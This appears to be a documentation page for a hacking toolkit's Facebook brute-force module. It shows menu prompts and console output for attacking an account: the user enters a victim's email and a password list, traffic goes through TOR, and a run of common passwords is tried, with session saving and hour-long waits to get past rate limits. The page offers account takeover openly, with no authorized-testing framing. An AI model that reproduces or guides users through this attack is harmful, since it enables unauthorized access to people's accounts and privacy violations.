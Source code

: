 ```bash
Z0172CK (BruteForce) > 1

[01] Start Brute Force
[02] Continue Brute Force

[99] Back

 Z0172CK (BruteForce/Facebook) >
```

in the facebook part we have two options 1. start a new attack 2. continue with an attack

If we select the first option to start a new attack, it will ask us for an email and a list of passwords

at any time we can give ctrl + c to save our attack and continue later with the second option

{% hint style="info" %}
if we get an error of this type " Please, check your TOR Connection! Just type" tor "or" service tor start " " just go back to the facebook option
{% endhint %}

```bash
Z0172CK (BruteForce/Facebook) > 1
Email account:
```

we put the mail of a victim

```bash
Password List (Hit Enter to default list):
```

we put the path of the list of our passwords or we give enter to use the one that comes by default

```bash
Wordlist: modules/FB-BruteForce/passwords.lst (39331)
[*] Press Ctrl + C to stop or save session
Trying pass (1/39331): "password"
Trying pass (2/39331): "12345678"
Trying pass (3/39331): "123456789"
Trying pass (4/39331): "iam123"
Trying pass (5/39331): "baseball"
Trying pass (6/39331): "football"
Trying pass (7/39331): "qwertyuiop"
Trying pass (8/39331): "1234567890"
Trying pass (9/39331): "superman"
Trying pass (10/39331): "1qaz2wsx"
Trying pass (11/39331): "trustno1"
Trying pass (12/39331): "jennifer"
Trying pass (13/39331): "sunshine"
Trying pass (14/39331): "iloveyou"
Trying pass (15/39331): "starwars"
Trying pass (16/39331): "computer"
Trying pass (17/39331): "michelle"
Trying pass (18/39331): "11111111"
Trying pass (19/39331): "princess"
Trying pass (20/39331): "987654321"
[*] Waiting 1 hour, to return at:
```
